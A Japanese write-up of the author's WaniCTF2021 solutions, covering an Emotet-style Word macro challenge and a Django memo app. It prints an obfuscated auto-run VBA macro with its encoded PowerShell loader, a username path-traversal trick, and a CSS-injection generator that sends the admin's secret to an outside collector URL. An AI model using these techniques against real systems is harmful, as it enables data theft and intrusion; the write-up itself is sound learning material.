


2021/11/5から開催されていたWaniCTF2021にチーム[0neP@dding](https://ctftime.org/team/168239)としてではなく、ソロで参加してきました。

得点は4820ptで最終順位は430人中20位でした。

序盤は最高で4位にまで行ったり、しばらくは1桁順位をキープできていたのですが、途中で完全に上位争いから振り落とされました・・・。悔しい。



今回も、面白かった問題や勉強になった問題についてまとめていきます。

<!-- omit in toc -->
## もくじ
- [Rev](#rev)
  - [EmoEmotet(Hard)](#emoemotethard)
- [Web](#web)
  - [Styled memo(very hard)](#styled-memovery-hard)
    - [Adminユーザ自体のクレデンシャル情報を窃取する](#adminユーザ自体のクレデンシャル情報を窃取する)
    - [Adminユーザの登録を改ざんする](#adminユーザの登録を改ざんする)
    - [Adminユーザに、一般ユーザのCSSを参照させる](#adminユーザに一般ユーザのcssを参照させる)
    - [Adminユーザの参照するCSSを改ざんする](#adminユーザの参照するcssを改ざんする)
    - [ブラインドCSS Injection](#ブラインドcss-injection)
- [解けなかった問題たち](#解けなかった問題たち)
  - [breakRAID(Forensic)](#breakraidforensic)
- [まとめ](#まとめ)

## Rev

今回はRev問は3問しか出ていなかったのと、簡単な問題しかでていなかったのであっさり解くことができました。

なんと、Revの最後の問題のFirst bloodを取ることができました（拍手



### EmoEmotet(Hard)

Rev問の最後の問題です。

Emotetっぽい挙動をするマクロ付きのドキュメントファイルが渡されます。

``` bash
なんかヤバそうなファイルが添付されたメールが届いちゃった。

これってもしかしてあのEmo---だったり...?

注意

zipのパスワードは「emoemotet」です
このファイルは競技用に作成されたもので、システムに害を与えるプログラムは含まれていません
このファイルは一部のアンチウイルスソフトによって誤検知され削除されることがあります
Windows, Wordがなくても解くことができます
ヒント : https://github.com/decalage2/oletools
```

しかし、このドキュメントファイルは破損しており、単純にマクロの実行はできないようになっていました。

そこで、ヒントにもある`oletools`でマクロスクリプトの内容を抽出します。

``` powershell
olevba 0.60 on Python 3.9.2 - http://decalage.info/python/oletools
===============================================================================
FILE: ../rev-emoemotet/emoemotet.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO emo 
in file: ../rev-emoemotet/emoemotet.doc - OLE stream: 'emo'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

Private InitDone       As Boolean
Private Map1(0 To 63)  As Byte
Private Map2(0 To 127) As Byte

Sub AutoOpen()
CreateObject(unxor(Array(135, 46, 140, 24, 228, 225, 126, 169, 34, 40, 56), 3) & unxor(Array(201, 1), 14)).Run unxor(Array(137, 123, 117, 87, 89, 140, 200, 174, 138, 204, 135, 229, 75, 9, 168, 39, 117, 219, 2, 212, 118, 230, 128, 213, 197, 44, 99, 93, 193, 144, 49, 210, 70, 175, 228, 16, 187, 75, 36, 215, 144, 31, 223, 159, 127, 45, 9, 205, 183, 34), 16) & _
unxor(Array(199, 228, 3, 153, 81, 192, 25, 128, 137, 147, 136, 23, 7, 80, 224, 108, 203, 255, 197, 21, 174, 66, 117, 184, 52, 127, 71, 19, 183, 239, 29, 155, 18, 223, 159, 241, 35, 183, 202, 179, 22, 101, 99, 100, 54, 218, 32, 33, 142, 198, 175, 159, 29, 205, 110, 154, 65, 22, 247, 152, 91, 192, 108, 145, 58, 203, 25, 158, 99, 37, 128, 229, 54, 60, 38, 178, 134, 208, 68, 38, 39, 99, 76, 155, 56, 147, 53, 156, 203), 66) & _
unxor(Array(102, 198, 208, 164, 182, 203, 117, 231, 127, 219, 94, 126, 10, 162, 173, 72, 207, 156, 150, 219, 167, 117, 27, 172, 242, 233, 32, 72, 61, 65, 178, 142, 245, 133, 139, 29, 181, 134, 18, 199, 242, 233, 14, 5, 134, 127, 212, 91, 91, 8, 171, 90, 25, 109, 198, 97, 6, 157, 10, 45, 214, 27, 185, 134, 246, 145, 32, 196, 221, 131, 137, 27, 100, 146, 80, 67, 177, 161, 71, 193, 155, 175, 42, 192, 227, 172, 239, 123, 92), 155) & _
unxor(Array(234, 141, 79, 179, 223, 15, 203, 43, 171, 112, 201, 234, 98, 141, 170, 14, 174, 104, 46, 107, 122, 18, 176, 138, 238, 208, 78, 126, 217, 208, 197, 2, 219, 144, 118, 145, 213, 45, 173, 225, 233, 161, 66, 174, 198, 108, 46, 184, 249, 150, 178, 36, 223, 5, 41, 60, 105, 114, 110, 110, 40, 134, 139, 35, 41, 235, 57, 182, 60, 105, 58, 175, 196, 240, 224, 144, 250, 156, 14, 138, 217, 9, 147, 115, 55, 194, 186, 162, 79), 244) & _
unxor(Array(209, 193, 20, 114, 189, 230, 8, 167, 240, 61, 224, 242, 135, 166, 38, 7, 87, 151, 117, 148, 46, 97, 158, 117, 106, 143, 40, 126, 199, 26, 83, 196, 211, 16, 152, 203, 123, 22, 248, 60, 127, 38, 179, 12, 140, 170, 29, 148, 133, 77, 82, 213, 53, 92, 146, 151, 236, 151, 74, 37, 118, 16, 28, 157, 49, 18, 131, 195, 167, 133, 54, 214, 12, 248, 32, 108, 36, 131, 65, 250, 97, 12, 26, 10, 182, 16, 34, 15, 10), 333) & _
unxor(Array(81, 75, 148, 28, 3, 254, 84, 127, 57, 78, 30, 146, 239, 82, 115, 175, 20, 208, 87, 218, 140, 50, 189, 210, 111, 35, 12, 128, 1, 116, 208, 150, 230, 88, 166, 120, 35, 106, 166, 121, 243, 216, 251, 46, 25, 196, 102, 54, 130, 52, 233, 123, 103, 240, 146, 114, 144, 49, 205, 121, 89, 126, 226, 239, 23, 51, 71, 7, 184, 111, 154, 71, 39, 28, 191, 99, 43, 237, 59, 241, 187, 84, 205, 162, 82, 62, 227, 183, 145), 422) & _
unxor(Array(220, 194, 134, 110, 158, 136, 28, 157, 6, 28, 18, 29, 219, 15, 42, 69, 202, 26, 210, 214, 48, 60, 156, 210, 88, 81, 191, 153, 36, 72, 192, 205, 71, 101, 125, 96, 84, 172, 113, 120, 112, 252, 31, 16, 92, 180, 3, 4, 127, 58, 214, 173, 165, 31, 64, 250, 139, 176, 79, 89, 136, 249, 48, 37, 153, 201, 184, 51, 155, 186, 96, 121, 74, 163, 28, 131, 230, 74, 186, 237, 17, 163, 101, 17, 51, 1, 78, 40, 101), 511) & _
unxor(Array(173, 96, 11, 202, 44, 219, 158, 69, 217, 56, 179, 84, 118, 152, 185, 163, 20, 92, 3, 211, 142, 226, 92, 27, 150, 191, 222, 95, 105, 58, 87, 200, 109, 108, 90, 41, 190, 252, 39, 215, 215, 150, 117, 140, 19, 0, 206, 174, 60, 83, 253, 136, 153, 112, 28, 55, 54, 1, 131, 65, 74, 92, 97, 135, 64, 80, 192, 181, 183, 54, 130, 9, 197, 65, 182, 38, 196, 1, 248, 217, 155, 50, 57, 1, 135, 114, 53, 68, 126), 600) & _
unxor(Array(246, 123, 20, 204, 50, 152, 85, 111, 106, 210, 2, 247, 48, 159, 65, 255, 33, 131, 91, 157, 245, 204, 232, 223, 23, 163, 243, 109, 81, 181, 198, 99, 13, 150, 202, 151, 133, 228, 53, 192, 53, 212, 255, 30, 218, 222, 76, 176, 230, 46, 127, 0, 251, 133, 0, 75, 6, 98, 143, 221, 135, 70, 86, 153, 72, 105, 167, 91, 77, 86, 67, 240, 157, 143, 239, 49, 103, 247, 44, 158, 232, 23, 50, 225, 15, 179, 237, 94, 120), 689) & _
unxor(Array(21, 83, 142, 200, 60, 47, 222, 133, 241, 121, 102, 78, 134, 204, 252, 118, 74, 8, 97, 95, 138, 94, 62, 159, 44, 75, 147, 70, 175, 185, 75, 205, 218, 38, 251, 211, 199, 207, 11, 12, 118, 242, 74, 62, 19, 187, 36, 239, 38, 120, 58, 21, 17, 110, 113, 192, 57, 6, 111, 168, 102, 244, 147, 53, 151, 47, 247, 65, 123, 74, 183, 87, 167, 131, 236, 21, 60, 168, 168, 109, 249, 113, 164, 208, 138, 110, 252, 219, 183), 778) & _
unxor(Array(220, 77, 218, 41, 229, 2, 88, 252, 106, 253, 236, 187, 215, 59, 193, 15, 32, 150, 231, 159, 48, 149, 160, 224, 111, 182, 39, 147, 118, 135, 109, 38, 249, 118, 63, 205, 247, 94, 37, 175, 100, 222, 164, 108, 71, 245, 42, 113, 7, 181, 87, 188, 28, 71, 172, 75, 129, 136, 82, 8, 238, 65, 105, 125, 243, 190, 156, 168, 181, 28, 153, 190, 197, 25, 147, 84, 135, 79, 188, 11, 18, 30, 138, 195, 228, 177, 172, 230, 163), 867) & _
unxor(Array(116, 194, 246, 44, 213, 63, 75, 126, 78, 201, 230, 241, 205, 28, 240, 125, 46, 241, 50, 61, 113, 118, 113, 86, 190, 61, 41, 156, 140, 82, 85, 106, 154, 150, 116, 59, 37, 253, 214, 245, 112, 156, 68, 246, 220, 182, 181, 189, 58, 225, 9, 164, 170, 238, 237, 86, 187, 55, 95, 125, 41, 240, 254, 175, 112, 213, 7, 13, 2, 246, 86, 176, 29, 97, 105, 229, 127, 121, 158, 77, 51, 32, 116, 104, 213, 158, 211, 231, 161), 956) & _
unxor(Array(129, 43, 134, 12, 8, 25, 228, 210, 145, 230, 100, 15, 197, 93, 157, 207, 26, 89, 220, 180, 84, 164, 102, 26, 249, 193, 34, 39, 225, 173, 136, 48, 2, 189, 79, 149, 126, 91, 99, 100, 89, 230, 239, 55, 238, 118, 200, 215, 212, 103, 180, 29, 169, 169, 86, 253, 76, 43, 205, 184, 10, 200, 239, 162, 140, 127, 45, 214, 133, 132, 32, 46, 221, 66, 49, 28, 237, 233, 29, 55, 34, 233, 243, 91, 27, 182, 146, 58, 210), 1045) & _
unxor(Array(221, 59, 115, 92, 39, 169, 26, 171, 5, 50, 197, 131, 119, 184, 107, 4, 29, 192, 53, 48, 132, 208, 65, 239, 155, 255, 215, 11, 24, 223, 136, 184, 64, 53, 126, 130, 187, 163, 164, 231, 37, 66, 251, 28, 11, 234, 2, 4, 164, 226, 66, 129, 205, 228, 64, 161, 54, 125, 62, 224, 56, 131, 134, 191, 223, 120, 130, 17, 7, 109, 154, 190, 7, 142, 154, 136, 163, 62, 125, 20, 97, 205, 30, 51, 252, 229, 116, 237, 29), 1134) & _
unxor(Array(250, 244, 208, 17, 50, 212, 135, 122, 49, 134, 155, 37, 131, 204, 239, 166, 215, 221, 49, 134, 92, 63, 41, 197, 73, 176, 26, 30, 134, 119, 176, 123, 215, 56, 159, 8, 66, 175, 127, 67, 73, 174, 128, 162, 142, 209, 1, 136, 92, 160, 147, 191, 233, 99, 132, 42, 11, 107, 188, 42, 221, 194, 18, 107, 174, 79, 16, 20, 104, 155, 183, 188, 119, 207, 27, 251, 1, 131, 14, 91, 61, 115, 233, 57, 143, 178, 128, 246, 87), 1223) & _
unxor(Array(214, 95, 231, 84, 214, 176, 235, 78, 206, 44, 143, 68, 150, 97, 49, 48, 56, 82, 156, 68, 43, 117, 63, 134, 143, 30, 38, 64, 222, 22), 1312)
End Sub

Public Function Base64Decode(ByVal s As String) As Byte()
   If Not InitDone Then Init
   Dim IBuf() As Byte: IBuf = ConvertStringToBytes(s)
   Dim ILen As Long: ILen = UBound(IBuf) + 1
   If ILen Mod 4 <> 0 Then Err.Raise vbObjectError, , ""
   Do While ILen > 0
      If IBuf(ILen - 1) <> Asc("=") Then Exit Do
      ILen = ILen - 1
      Loop
   Dim OLen As Long: OLen = (ILen * 3) \ 4
   Dim Out() As Byte
   ReDim Out(0 To OLen - 1) As Byte
   Dim ip As Long
   Dim op As Long
   Do While ip < ILen
      Dim i0 As Byte: i0 = IBuf(ip): ip = ip + 1
      Dim i1 As Byte: i1 = IBuf(ip): ip = ip + 1
      Dim i2 As Byte: If ip < ILen Then i2 = IBuf(ip): ip = ip + 1 Else i2 = Asc("A")
      Dim i3 As Byte: If ip < ILen Then i3 = IBuf(ip): ip = ip + 1 Else i3 = Asc("A")
      If i0 > 127 Or i1 > 127 Or i2 > 127 Or i3 > 127 Then _
         Err.Raise vbObjectError, , ""
      Dim b0 As Byte: b0 = Map2(i0)
      Dim b1 As Byte: b1 = Map2(i1)
      Dim b2 As Byte: b2 = Map2(i2)
      Dim b3 As Byte: b3 = Map2(i3)
      If b0 > 63 Or b1 > 63 Or b2 > 63 Or b3 > 63 Then _
         Err.Raise vbObjectError, , ""
      Dim o0 As Byte: o0 = (b0 * 4) Or (b1 \ &H10)
      Dim o1 As Byte: o1 = ((b1 And &HF) * &H10) Or (b2 \ 4)
      Dim o2 As Byte: o2 = ((b2 And 3) * &H40) Or b3
      Out(op) = o0: op = op + 1
      If op < OLen Then Out(op) = o1: op = op + 1
      If op < OLen Then Out(op) = o2: op = op + 1
      Loop
   Base64Decode = Out
   End Function

Private Sub Init()
   Dim c As Integer, i As Integer
   i = 0
   For c = Asc("A") To Asc("Z"): Map1(i) = c: i = i + 1: Next
   For c = Asc("a") To Asc("z"): Map1(i) = c: i = i + 1: Next
   For c = Asc("0") To Asc("9"): Map1(i) = c: i = i + 1: Next
   Map1(i) = Asc("+"): i = i + 1
   Map1(i) = Asc("/"): i = i + 1
   For i = 0 To 127: Map2(i) = 255: Next
   For i = 0 To 63: Map2(Map1(i)) = i: Next
   InitDone = True
   End Sub
   
Private Function ConvertStringToBytes(ByVal s As String) As Byte()
   Dim b1() As Byte: b1 = s
   Dim l As Long: l = (UBound(b1) + 1) \ 2
   If l = 0 Then ConvertStringToBytes = b1: Exit Function
   Dim b2() As Byte
   ReDim b2(0 To l - 1) As Byte
   Dim p As Long
   For p = 0 To l - 1
      Dim c As Long: c = b1(2 * p) + 256 * CLng(b1(2 * p + 1))
      If c >= 256 Then c = Asc("?")
      b2(p) = c
      Next
   ConvertStringToBytes = b2
   End Function


Private Function unxor(ciphertext As Variant, start As Integer)
    Dim cleartext As String
    Dim key() As Byte
    key = Base64Decode("rFd10H3vao2RCodxQF2lbfkUAjIr/6DL5qCnyC4p5EA0tEOXFafhhIdAIhum0XulB9+lU9wKRrDSWZ7XHGxFnPVUhqNK2DCnW8bI1MVWYxGhC4q5iFT5EzfCdTcWUu2+X9VTnKuwcOaIxVcmVyVjrWIRz4Dm3kecLNgAU8fZOKcu/XuMXN85ZMKjd3Rv882RBUFmICvacdJ36Yojk5HAwYoBpjjjHydt4NwJisnXgtA3K+2xqGEBfAPmz73uyn7CxCKGt7xPUdc+oRoeY+oObiyzIEPQS3mhWffHsNBhkbrBz1os3xEgxuM3gN6Xa5SE7Zo6G7vMFeKdYops3DGQuyDY60v7KXscOCLxwqeRFC+buIRH69E90JdP7KSC4CDZhxlv/cnX6HWdcWh7UTM7CWqzymtkqm/3fjp76pGxscG40k/M6UjaMnWg++oCkJZFMMenTvaxZ7GwyedlMxbOAtZ+INlBK+tPPIFbG42SRtmJH1e8Uz5p1E7h61vdxBkl" & _
"l3sd196txhtnIlFZyHBc5IKXxHCbTa5hLl3CBpEgbn1I2FFhaEsYCtVyQrkdPmA5X6CuFhjuRacVoM131pMLVE7IQDG717EZ5BdiLOc4pb+5Q1iMAXfQQ6soJrjxM8ZgjzQYO5WuQkQFdfko6QZEa/0QaqhysOozj/sTeoj2wI2A0C/bwV35cV5EXJNOawqbWJCXdwzdsD8QjNhiDYGYFicJIRD5MBshvm1RGv1CZz54n+ziSgGe2vJ6GMy4cWv+i+hy0/shNgvhVcKuJfuPZuFUUHtqD3w07yZKj2ma+iKYCvIRO9nu8lYOQpbbowha1OyfGzx7BJkvJxth3b1xoJaiNMRwQZz/fiC8zvYxTlB0bsIHKR07xgI8gfCDd+NIhwL3YbdAor7ZfHhH3jNhBTykOlyrc/0yLQSTR8dx0BC9QMIerbSCqZ1Q4rUGEPiXIVvXjtrEhnSBTZW4U5uJHfGQbzlVuuRRCUAjyIzGCDHbDCjvEgwbNLLEzqdeJrh9" & _
"3K1WddVO4bwcKlQb14luWJzBsDwrD8u7vi8LTRIe6A982G0Oygf6+Am9m2GIkp6eSWY3tSF/cOpmuWc+d1RCPzO5eEAm6TWT0ULWZ5QAMD31GObEpVRZ+eoCuDSckd0JvrP2lBSbZKRADL0unq3vhnmyTmflpvtH15ahJ+9mxgHGH2exGX6vgBx17iyx5T4WtBowQsIW310F1QrH6xNfvwM9PLv/3czSXs//jUDSB/AN60pVccuZtfPvp+ZMg6d9l0UKNiWIq7CMKbE7Z7BWWjNEMBPdfGbNzmQULvHXOXpnlZeyNd0ht57x9PljoFDD6N+sEuJ2DRprg7/qNZRJekOAF/VIID2SPgDfCkRhLg+Xq5KgysBO4U5nWKGD0IM1TYcc24pbCY31beUlebiKc2aS7MtxQ+o41wQaJQ8Ys5h13jeNgpUz5Vzc6BGWDUm6+X+Jqu/NK1qUy8Vmb5wXVl6BqFt6Y7yEGWv31QKTiVwyKWbuV+pRRYf3NvAqRX6n" & _
"d1zFmAyuzoiVe1masPkUUjz2+uacpn8DuVpKrDJF64UDt4yhEeBsLHykecS+/r0pwEBGJdP/Vd/Y3OJ4MFUqnF9UvaYfrFG7trJQepnGH2DE4WTFna70hp9Fxx8LaJMI8lxfwBDxH5Z56kkF+j4hLuzq48vpQNId4tn+rFfFeHwp2GuZrVMkyQ1SVSDW9uUAjWu6ROhPEGwyjnjM2cG6MJQmphOD8bIfjGnOAscgU0d6FN0BHzRtx85xZwO1Vw==")
    cleartext = ""
    For i = LBound(ciphertext) To UBound(ciphertext)
        cleartext = cleartext & Chr(key(i + start) Xor ciphertext(i))
    Next
    unxor = cleartext
End Function


-------------------------------------------------------------------------------
VBA MACRO ThisDocument 
in file: ../rev-emoemotet/emoemotet.doc - OLE stream: 'ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|Suspicious|Run                 |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Xor                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
```

だらだら難読化されているのでこれだけ見てもよくわかりませんが、「まぁEmotetならPowerShell呼び出しやろ（適当」ということで、このマクロを実行したときに呼び出されるプロセスを捕まえることにしました。

すると、次のようなエンコードされたPowerShellスクリプトを実行していることがわかりました。

``` powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -e LgAoACcAaQBlAFgAJwApACgAbgBFAHcALQBvAGIAagBFAGMAdAAgAFMAWQBzAHQAZQBNAC4ASQBvAC4AUwB0AFIAZQBBAE0AcgBlAGEAZABFAHIAKAAgACgAIABuAEUAdwAtAG8AYgBqAEUAYwB0ACAAIABTAHkAcwB0AEUATQAuAEkATwAuAEMATwBNAFAAUgBFAHMAcwBpAE8ATgAuAGQAZQBmAGwAYQBUAEUAUwB0AHIAZQBhAE0AKABbAEkAbwAuAE0AZQBtAG8AUgB5AHMAVABSAEUAQQBNAF0AIABbAHMAWQBzAFQAZQBNAC4AYwBPAG4AdgBFAHIAVABdADoAOgBmAFIATwBNAEIAQQBTAEUANgA0AFMAVAByAGkAbgBnACgAIAAnAGIAYwA2ADkAQwBzAEkAdwBHAEkAWABoAFAAVgBmAHgARwBSAHcAVQBMAEwAUwBrAGsAcwBsAEIAQgBYADkAQQBVAEIAdwBVAHAAOQBBAG0AbgA3AFEAUQBtADUAcQBrAFIAcABIAGUAdQB5ADAANgBPAHAAOABIAHoAbwB1AHkATQBFAEEAdgA2AEMAWQBRAEUATABSADUASQBKAHcAVwA4AHcARQBsAFoARgBoAFcAZABlAE4AaABCAGsAZgBNAFYATABRAHgAegBnAE0AOQBaAE0ANABGAFkAMQBVADMAbAAxAGMAWQAvAFUAaQBFAGQANgBDAHIAMwBYAHoAOQBEAG4ARQBRAHYARwBDAEMAMwBYAEsAbQBGAEYAUABpAGsAYQBjAGkAcQBVAFMASQByAFIASgBwAHcAKwBOAGIAeQBoAE8AWgBhAHYAMABTADcATQBsAGsAdwB6AHYAUwArAHoAbwBPAHoARQA0AEwAcAByAFcAWQBTAHAAdgBVAHYASwBWAGoAZQBCAE8AQQBzAHkAMAA5AFIAdgB2AEcAOQB6ADkAMABhAGEAeABGADYAYgB1ADYARgBsAEEANwAvAEUATwAyAGwAZgB5AGkAegBoAEQAeQBBAFEAPQA9ACcAKQAsACAAWwBzAFkAUwB0AEUATQAuAGkAbwAuAEMATwBNAFAAUgBlAFMAUwBpAG8ATgAuAGMATwBtAHAAcgBlAHMAUwBpAE8ATgBtAE8AZABFAF0AOgA6AEQAZQBDAG8AbQBQAHIARQBTAFMAKQAgACkALABbAHMAeQBzAFQARQBtAC4AVABFAFgAdAAuAGUAbgBjAE8AZABJAE4ARwBdADoAOgBBAHMAYwBpAEkAKQAgACkALgByAGUAYQBEAFQAbwBFAE4ARAAoACkA
```

Base64をデコードしてみると、次のようなスクリプトを実行していることがわかりました。

``` powershell
.('ieX')(nEw-objEct SYsteM.Io.StReAMreadEr( ( nEw-objEct  SystEM.IO.COMPREssiON.deflaTEStreaM([Io.MemoRysTREAM] [sYsTeM.cOnvErT]::fROMBASE64STring( 'bc69CsIwGIXhPVfxGRwULLSkkslBBX9AUBwUp9Amn7QQm5qkRpHeuy06Op8HzouyMEAv6CYQELR5IJwW8wElZFhWdeNhBkfMVLQxzgM9ZM4FY1U3l1cY/UiEd6Cr3Xz9DnEQvGCC3XKmFFPikaciqUSIrRJpw+NbyhOZav0S7MlkwzvS+zoOzE4LprWYSpvUvKVjeBOAsy09RvvG9z90aaxF6bu6FlA7/EO2lfyizhDyAQ=='), [sYStEM.io.COMPReSSioN.cOmpresSiONmOdE]::DeComPrESS) ),[sysTEm.TEXt.encOdING]::AsciI) )
```

この中のBase64文字列をデコードしたものの、バイナリデータになっていたので中身が読み取れません。

処理を見ると`COMPREssiON.deflaTEStreaM`を呼び出していることから、圧縮されたメモリストリームであることが想定されます。

参考：[DeflateStream Class (System.IO.Compression) | Microsoft Docs](https://docs.microsoft.com/en-us/dotnet/api/system.io.compression.deflatestream?view=net-5.0)

Encryptされたメモリストリームなら、プロセスに展開されたときには平文に戻っているはずなので、このスクリプトを実行したときのPowerShellのプロセスダンプを取得して解析にかけました。

``` powershell
echo "Yes, we love VBA!"
$input = Read-Host "Password"

if ($input -eq "FLAG{w0w_7h3_3mb3dd3d_vb4_1n_w0rd_4u70m471c4lly_3x3cu73d_7h3_p0w3r5h3ll_5cr1p7}") {
  Write-Output "Correct!"
} else {
  Write-Output "Incorrect"
}
```

すると、上記のような処理を行っていることがわかったのでFlagが取得できました。

## Web

Webはコピペ問がほとんどでしたが、最後の`Styled memo`という問題が結構面白かったです。

タイムリーな**CVE-2021-41773**に関する問題も、簡単ながら新しい発見がありました。

NginxのURI正規化のふるまいとか、Off-the-slashの設定ミスとかはよく知らなかったので勉強になりました。

参考：[Common Nginx misconfigurations that leave your web server open to attack - Detectify Blog](https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/)

参考：[Breaking-Parser-Logic](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)

### Styled memo(very hard)

Django製のメモ帳アプリでした。

使える機能としては以下の通り。

- ユーザ登録/変更
- ユーザごとのCSS変更
- メモの登録/編集

ユーザについては、ユーザ名の重複登録ができないようになってました。

また、ユーザが任意に設定できるCSSについては、ファイルをアップロードすることができ、アップロードされたファイルは`/media/css/<username>/<finename>.css`に配置されます。

一般ユーザの裏ではAdminユーザが動いている（想定）で、Adminユーザのメモ内にFlagがあるため、何とかこれをハックせよという問題でした。

露骨に任意のCSSをアップロードできる機能が実装されているので、最終ゴール地点はCSS Injectionであると容易に想像ができます。

参考：[WSTG - v4.1 CSS Injection | OWASP](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/05-Testing_for_CSS_Injection)

そのため、ここからは以下にAdminユーザのページに任意のCSSを表示させるかを考えました。

思いついたものとしては、以下のパターンがありました。

- Adminユーザ自体のクレデンシャル情報を窃取する
- Adminユーザの登録を改ざんする
- Adminユーザに、一般ユーザのCSSを参照させる
- Adminユーザの参照するCSSを改ざんする

#### Adminユーザ自体のクレデンシャル情報を窃取する

これはまず最初に試したものの、かなりハードルが高そうでした。

クレデンシャル情報はサーバ側の環境変数に埋まっており、Djangoの機能で取り出す方式でした。

Djangoのバージョンも、2.2系としてはかなり新しい2.2.20で、使えそうな脆弱性も見つかりませんでした。

#### Adminユーザの登録を改ざんする

カスタムユーザモデルを利用していたので、model情報を見てみたところ、各ユーザの中に対応する管理者ユーザのアカウントが保存されるトリッキーな構造であることがわかりました。

``` python
class User(AbstractUser):
    username = models.CharField(
        _("username"),
        max_length=150,
        unique=True,
        help_text=_("Required. 150 characters or fewer."),
        error_messages={
            "unique": _("A user with that username already exists."),
        },
    )
    css = models.FileField(
        "メモ用CSS",
        default=get_css_default,
        blank=True,
        upload_to=get_upload_to,
        storage=OverwriteStorage(),
    )
    admin = models.ForeignKey("User", null=True, on_delete=models.PROTECT)

    @cached_property
    def admin_username(self):
        if self.admin is not None:
            return self.admin.username
        return ""
```

`RegisterView`を見たところ、ユーザ作成時に1:1で対応する管理者ユーザが作成されていることがわかりました。（おそらくCTF的な都合）

残念ながら、管理者ユーザの作成はこちらの関与できないバックエンドで完結しており、改ざんは難しそうでした。

``` python
admin_username = None
while (
    admin_username is None
    or User.objects.filter(username=admin_username).exists()
):
admin_username = "admin" + "".join(random.sample(chars, 8))
admin = User(username=admin_username)
admin.set_password(os.environ.get("ADMIN_PASSWORD"))
admin.save()
user.admin = admin
user.save()
```

#### Adminユーザに、一般ユーザのCSSを参照させる

Adminユーザは自分のページ以外は開けない実装になっており、実施は難しそうでした。

また、そもそもAdminユーザのページにFlagがあるので、Adminユーザに一般ユーザのページを参照させても仕方ないなということに途中で気づきました。

#### Adminユーザの参照するCSSを改ざんする

各ユーザの参照先CSSのパスは、CSSファイルアップロード時に`get_upload_to`コマンドで作成されます。

``` python
def get_upload_to(user, filename):
    return "css/{0}/{1}".format(user.username, filename)

def get_css_default():
    return File(open("app/static/example.css", "r"), "example.css")
```

そして、Userモデルの定義をよく見ると、アップロードしたCSSのパス自体はUserモデルと紐づいておらず、変更にユーザ認証が必要なスコープの外にあることに気づきました。

``` python
css = models.FileField(
	"メモ用CSS",
    default=get_css_default,
    blank=True,
    upload_to=get_upload_to,
    storage=OverwriteStorage(),
)
```

つまり、何とかして`get_upload_to`で取得されるCSSのパスを、Adminユーザの参照するCSSのパスに一致させればいいわけです。

これは非常に簡単でした。

`get_upload_to`が返すのは単なるパス文字列であり、Django側がパス文字列をもとにCSSファイルのパスを特定する際にはトラバーサルが有効になります。

そのため、ユーザ名を次のようなユーザ名に変更して、`example.css`をアップロードしてみました。

``` bash
# 変更後のユーザ名
../css/Adminhoge
```

すると、`/media/css/Adminhoge/example.css`の中身を書き換えることに成功しました！

#### ブラインドCSS Injection

さて、Adminユーザに任意のCSSを読ませることができたので、あとは作業の時間です。

Flagはメモデータの中の`data-content`に格納されています。

そのため、以下のようなCSSを作成することで、1文字ずつFlagの文字列をブラインドで特定することができます。

``` css
button[data-content^="FLAG{C"] 
{
    background: url(https://remoteurl[.]xxx?FLAG{C);
}
```

すべてのパターンを試してFlagの1文字を特定するCSSを作成するため、以下のスクリプトを作成しました。

``` python
# Usage: python3 gen_css.py > example.css
V = "}{!#$%&()=-~^|`@[]*?_ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+-"

for val in V:
    flag = "FLAG{" + val
    css = """button[data-content^=\"""" + flag + """\"] {background: url(https://enuht7nw1df9k7r.m.pipedream.net?""" + flag + """);}"""
    print(css)
```

これで作成された`example.css`をアップロードした後、Adminユーザが自分のページにログインすれば、リモートサーバに1文字分のFlagが送信されます。

あとはこれを繰り返して、最終的にFlagが`FLAG{CSS_Injecti0n_us1ng_d1r3ctory_tr@versal}`であると特定できました！

ほんとはCSSの再帰を使うかアップロード自動化スクリプトを作成するのがいいと思うのですが、Flagを取得するだけだったので手動で1文字ずつ取得していくという脳筋ムーブをかましました。

## 解けなかった問題たち

### breakRAID(Forensic)

Raid5で構成された3枚のディスクのうち1枚が破損しており、それを復旧する問題。

